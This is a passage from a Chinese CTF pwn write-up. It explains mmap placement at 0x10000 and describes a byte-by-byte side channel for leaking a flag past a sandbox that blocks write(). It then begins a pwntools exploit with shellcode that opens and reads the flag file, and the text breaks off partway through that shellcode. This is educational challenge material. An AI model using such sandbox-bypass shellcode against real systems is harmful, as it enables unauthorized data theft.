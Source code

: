 ```plain
// about mmap (link: https://man7.org/linux/man-pages/man2/mmap.2.html)
// 1. SYNOPSIS
#include <sys/mman.h>
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);

/* 2. DESCRIPTION
 mmap() creates a new mapping in the virtual address space of the
       calling process.  The starting address for the new mapping is
       specified in addr.  The length argument specifies the length of
       the mapping (which must be greater than 0).

       If addr is NULL, then the kernel chooses the (page-aligned)
       address at which to create the mapping; this is the most portable
       method of creating a new mapping.  If addr is not NULL, then the
       kernel takes it as a hint about where to place the mapping; on
       Linux, the kernel will pick a nearby page boundary (but always
       above or equal to the value specified by
       /proc/sys/vm/mmap_min_addr) and attempt to create the mapping
       there.  If another mapping already exists there, the kernel picks
       a new address that may or may not depend on the hint.  The
       address of the new mapping is returned as the result of the call.
......
*/
```

由 `on Linux, the kernel will pick a nearby page boundary (but always above or equal to the value specified by /proc/sys/vm/mmap_min_addr)` 可知：Linux 为 `mmap` 分配虚拟内存时，总是从最接近 `addr` 的页边缘开始的，而且保证地址不低于 `/proc/sys/vm/mmap_min_addr` 所指定的值。  
可以看到，`mmap_min_addr = 65536 = 0x10000`，因此刚才判断程序利用 mmap 函数在 0x10000 处开辟一个 page 的空间

因此mmap申请的内存的起始地址应该为0x10000,截至地址应该为0x11000,大小为0x1000，这里附上其他师傅进行动调vmmap得到的结果，和我所理解的是一样的

[![](assets/1701612140-66ef09e5b4d32fc904cb30a1f85b5c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203704-70756b70-3b68-1.png)

由于缺少write()函数，我们无法输出flag，可以进行单个字节的对比爆，即读取flag到一块内存区域，随后单字节爆破，在shellcode中设置loop循环，一旦cmp命中就让程序卡死，否则执行后面的exit因为沙箱禁用程序崩溃退出，根据程序的表现可以区分是否命中，注意因为服务器通信不稳定，每次读到一段flag就更新exp中的flag字符串继续向后爆破

exp：

```plain
#coding=utf-8
from pwn import *

context.update(arch='amd64',os='linux',log_level='info')

def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x10700
            mov dl,0x40
            xor rax,rax
```